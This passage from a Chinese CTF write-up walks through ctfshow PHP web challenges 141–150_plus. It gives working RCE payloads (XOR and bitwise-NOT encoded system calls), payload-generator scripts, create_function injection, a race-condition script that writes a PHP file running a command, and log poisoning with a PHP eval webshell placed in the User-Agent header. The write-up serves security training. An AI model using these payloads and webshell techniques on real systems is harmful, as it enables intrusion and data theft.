        s2 = input("[+] your command：")
        param = get_order(s1) + get_order(s2)
        print("\n[*] result:\n" + param+";")

main()
```



v1和v2随便填，只要能通过第一层验证就行，然后v3就是我们的result，但注意的是这里有个return干扰，所以我们要在v3的payload前边和后面加上一些字符就可以执行命令，例如`\+ - *` 等等





换payload传进去就能拿到flag了

## web142

### #学习函数sleep

```php
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

#### sleep($d)

在 PHP 中，`sleep($d);` 用于将程序暂停执行一段时间，具体时间由变量 `$d` 所指定。这个函数会使脚本暂停 `$d` 秒。

可以看到d参数是由(int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d)组成，而0x36d是877的意思，如果我们v1传入的是1的话d参数的值就特别大，我们得等到猴年马月，这里我们直接传0的各种进制数进去就行

payload:v1=0

这样的话d就等于0，就能很快出flag了，flag在源码里面

## web143

### #无字母无数字rce异或脚本2.0

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这里的v3相对于141过滤了更多，但是我们的异或符号没有被过滤，可以正常使用141的脚本

绕过方法：取反用异或代替，减号用乘或除代替。

但是我们要把脚本里面的preg改成我们现在的过滤

我这里再放一个脚本，这个异或脚本相对来说复制一点点但也很好用

#### 无字母数字rce异或脚本

php脚本生成可用字符

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {
    for ($j=0; $j <256 ; $j++) {

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i'; //根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
            echo "";
        }

        else{
            $a='%'.$hex_i;
            $b='%'.$hex_j;
            $c=(urldecode($a)^urldecode($b));
            if (ord($c)>=32&ord($c)<=126) {
                $contents=$contents.$c." ".$a." ".$b."\n";
            }
        }

    }
}
fwrite($myfile,$contents);
fclose($myfile);

```

python脚本

```python
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

最后的payload:

```
v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")*
```

## web144

### #水题

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

这道题的话就只是相对于141来说是换了变量的位置，让v2为我们需要处理的字符串，所以做法是一样的

## web145

### #三目运算符绕过正则匹配

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这里没有过滤取反符号~,但是过滤了异或符号，那我们可以试一下取反

取反脚本

```php
<?php
//在命令行中运行

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```

但是这里过滤了加减乘除反斜杠

看了大佬的wp，我又学到了一种新方法，就是关于三目运算的构建payload

羽师傅的测试:

```php
eval("return 1?phpinfo():1;");
```

本地测试结果是可以执行，那我们可以使用三目运算符

所以我们的目标是构建`eval("return 1?tac f*:1;");`

payload构造类似之前：

```
?v1=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5):&v2=1     //三目运算符
```

## web146

### #逻辑或绕过正则匹配

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

上面忘记放脚本了，这里放一个脚本

#### 查看可用字符脚本

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i',chr($i))){
            echo chr($i)." ";
        }
}
?>
///' ( ) , = ? [ \ ] ` { | ~ 
```

这样的话可以用的字符就一目了然了

这里可以看到三木运算符的:被禁用了，我们可以用逻辑或运算符试一下

本地测试:

```php
<?php
eval("return 1|phpinfo()|die('world');");
?>
```

发现是可以跑的通的

那就直接构造payload

```
?v1=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|&v2=1
```

## web147

### #正则匹配/^[a-z0-9_]*$/isD

### #考点：create_function函数注入

```php
if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

#### preg_match('/^[a-z0-9_]*$/isD',$ctfshow)

##### 正则表达式详解

- **`^`**: 表示字符串的开始。
- `[a-z0-9_]*:
  - `[a-z0-9_]`: 这部分表示一个字符集合，匹配任意小写字母 (`a-z`)、数字 (`0-9`) 或下划线 (`_`)。
  - `*`: 量词，表示前面的字符集合可以出现零次或多次。
- **`$`**: 表示字符串的结束。

##### 正则表达式修饰符

- **`i`**: 忽略大小写。由于字符集合中只有小写字母，这个修饰符使得正则表达式同时也匹配大写字母。
- **`s`**: 使得 `.` 可以匹配换行符，但在此正则表达式中没有使用 `.`，所以这个修饰符没有实际影响。
- **`D`**: 表示 "dollar end only"，也就是说 `$` 只匹配字符串的结尾。这在某些情况下会影响匹配行为，但在这个具体正则中，`D` 修饰符没有特别的影响。

输出可用字符:! " # $ % & ' ( ) * + , - . / : ; < = > ? @ [ \ ] ^ ` { | } ~ 

关于create_function函数注入

#### create_funtion函数

`create_function` 是 PHP 中的一个函数，用于动态创建匿名函数

基础语法

```php
$function = create_function('$args', 'code');
```

- `$args` 是一个用逗号分隔的参数列表。
- `code` 是函数体的代码。

由于php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法

create_function()代码注入：

```php
create_function('$a',echo $a."123"')
就相当于
function ($a){
	echo $a."123";
	}
```

我们来做个直观的代码方便观看

```
funtion f($a){
	echo 1;}phpinfo();
}
就是
function f($a){
	echo 1;
}
phpinfo();
```

但是这里原则上会多出一个}，这样该怎么处理呢?我们可用参考sql注入中的主动闭合+注释

payload

```
?show=}system("tac f*");/*     //GET
ctf=\create_function           //POST
```

## web148

### #中文变量绕过

```php
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

可以看到flag在get_ctfshow_flag()方法里面，只要调用了这个方法就能输出flag

我们还可以看到eval函数，eval函数会将我们输入的code参数的值作为php代码执行，那我们看看能不能通过eval函数去调用get_ctfshow-flag()方法呢

方法一就是正常的异或绕i过了，因为没过滤^符号

payload:

```
?code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```



方法二:中文变量绕过

```php
?code=$给特="%60%7B%7B%7B"%5E"?<>/";${$给特}[参数一](${$给特}[参数二]);&参数一=system&参数二=tac%20f*

//?code=$给特="`{{{"^"?<>/";${$给特}[参数一](${$给特}[参数二]);&参数一=system&参数二=tac f*
//"`{{{"^"?<>/"; 异或出来的结果是 _GET
//也可以    ${_GET}[哼](${_GET}[嗯]);&哼=call_user_func&嗯=get_ctfshow_fl0g
```

## web149

### #删除文件的条件竞争

```php
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

这里进行了一个扫描目录的操作，并根据条件执行删除文件的指令

1. **`scandir('./')`**:
   - `scandir` 函数用于扫描指定目录，返回文件和子目录的列表。
   - `'./'` 表示当前目录。
2. **`unlink($file)`**:
   - `unlink` 函数用于删除文件

#### 非预期

因为不会删除index.php，所以我这里有想到一个非预期解，就是往index.php里面写一句话



然后用蚁剑连接木马就可以了

#### 预期解:条件竞争进行访问

用脚本进行条件竞争

```python
import requests  # 导入requests库，用于发送HTTP请求。  
import io  # 导入io库，用于处理输入输出流，这里主要用于创建字节流。  
import threading  # 导入threading库，用于实现多线程。  
  
# 定义目标URL和会话ID。  
url='http://db1dc1a9-61c8-4e0b-94df-e0525c7f9192.challenge.ctf.show/'  # 目标网站的URL。    
  
# 构造要发送的数据，尝试在服务器上写入一句话木马。  

  
# 定义write函数，用于通过发送大量文件上传请求来尝试写入木马文件。  
def write():
    while event.isSet():
        data = {
            'show': '<?php system("cat /ctfshow_fl0g_here.txt");?>'
        }
        requests.post(url=url+'?ctf=1.php', data=data)


def read():
    while event.isSet():
        response = requests.get(url + '1.php')
        if response.status_code != 404:
            print(response.text)
            event.clear()


if __name__ == "__main__":
    event = threading.Event()
    event.set()
    for i in range(1, 100):
        threading.Thread(target=write).start()

    for i in range(1, 100):
        threading.Thread(target=read).start()
```

## web150

### #文件包含非预期绕过

```php
class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];//获取查询字符串
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);//将 $_GET 数组中的键值对提取出来，并将键作为变量名
if(class_exists($__CTFSHOW__)){	// 如果指定类(CTFSHOW)存在，则输出提示信息
    echo "class is exists!";
}
// 如果 $isVIP 为真且 ctf 字符串中不包含冒号
if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```

这里首先看到的是include函数，第一时间想到的是文件包含，然后我们去看过滤，这里会对get传入的参数进行key的过滤，这里有一个isVIP参数和ctf参数，后者是通过post传参但前者似乎没有定义传参方式，那我们就get传就行，这样的话我们采用日志注入来做试试

为什么使用日志注入?

因为$key进行了字符的过滤，所以我们不能通过get传参传入木马,正常的文件包含行不通，所以我们需要进行日志文件包含或者session文件包含

### 日志注入

先看服务器



是nginx服务器，

日志文件路径：

```
apache一般是/var/log/apache/access.log。
nginx的log在/var/log/nginx/access.log和/var/log/nginx/error.log。
```

 然后我们进行抓包，并往ua头写入一句话木马

UA头：`<?php eval($_POST[1]);?>`



包含日志文件，进行RCE

?isVIP=true                                         //GET
ctf=/var/log/nginx/access.log&1=system("tac flag.php");   //POST



这里的话用session文件包含也是可以的，大家都可以试一下

## web150_plus

```php
class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}

```

这个相对上一题的话是禁用了日志注入的，不过这个出题人也是有点坑咱哈，在isVIP方法后门就结束了对CTFSHOW类的描述，所以__autoload()方法并不属于CTFSHOW类

那我们分析一下这个额外的方法

### __autoload

这是PHP中一个特殊函数，用于在需要但尚未定义的类被实例化时自动加载类文件

__autoload 尝试加载未定义的类，在进行if(class_exists($__CTFSHOW__))判断时，会自动调用__autoload 这个方法。那么我们直接让__CTFSHOW__等于phpinfo，在调用__autoload时后面会执行$class()；，即执行phpinfo()。

但是在正则匹配中过滤了下划线，导致我们无法正常的传入\__CTFSHOW__类，这时候应该怎么办呢？

联想到关于php 中变量名的命名规则，当变量名解析过程中碰到小数点的时候会自动将小数点化成下划线

所以我们的payload

```php
?..CTFSHOW..=phpinfo
```



然后在里面搜索flag就可以了


